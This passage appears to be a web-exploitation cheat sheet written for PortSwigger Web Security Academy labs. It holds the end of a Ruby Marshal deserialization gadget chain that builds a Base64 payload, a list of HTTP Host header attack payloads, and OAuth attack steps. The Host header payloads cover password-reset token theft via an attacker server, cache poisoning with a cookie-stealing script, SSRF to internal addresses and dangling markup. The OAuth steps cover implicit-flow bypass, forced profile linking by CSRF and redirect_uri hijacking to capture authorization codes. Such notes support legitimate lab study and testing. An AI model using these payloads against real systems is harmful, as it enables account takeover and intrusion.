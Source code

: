 
n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
```
## HTTP Host header attacks
The best place, where you can set this type of attacks is in Forgot password? functionality.  
Set your exploit server in Host and change username to victim's one  
Go to exploit server logs and find victim's forgot-password-token  
These Headers can also be used, when Host does not work:
```
X-Forwarded-Host: exploit-server.com
X-Host: exploit-server.com
X-Forwarded-Server: exploit-server.com
```
### Exploits
1. To send malicious email put your server in Host
```
Host: exploit-server.com
```
2. Admin panel from localhost only
```
GET /admin HTTP/1.1
Host: localhost
```
3. Double Host / Cache poisoning
```
Host: 0adf00cc033d5f09c05b077d000200eb.web-security-academy.net
Host: "></script><script>alert(document.cookie)</script>
```
4. SSRF
```
GET /admin HTTP/1.1
Host: 192.168.0.170
```
5. SSRF
```
GET https://0a44007e03fb1d0cc0068900005000d1.web-security-academy.net HTTP/1.1
Host: 192.168.0.170
```
6. Dangling markup
```
Host: 0a42005f03d221bec0c45997001600ce.web-security-academy.net:'<a href="http://burp-collaborator.com?
```
## OAuth authentication
Arises at Sign-in page. The main request to play with is `/auth?client_id=...`
### Exploits
1. Authentication bypass via OAuth implicit flow  
Intercept the whole process of OAuth authentication and observe /authenticate POST request that contains email and username. Change these parameters to carlos'.
2. Forced OAuth profile linking  
Intercept the whole process of OAuth authentication and observe /oauth-linking request with code. This request is without state parameter, so Generate CSRF PoC and drop the request. Send it to victim and login via OAuth.  
3. OAuth account hijacking via redirect_uri  
Intercept the whole process of OAuth authentication and observe `/auth?client_id=xxx&redirect_uri=xxx&response_type=xxx&scope=xxx`, change `redirect_uri` to your collaborator server and Generate CSRF PoC, drop the request. Send it to victim and find out his `/oauth-callback?code`.  
```
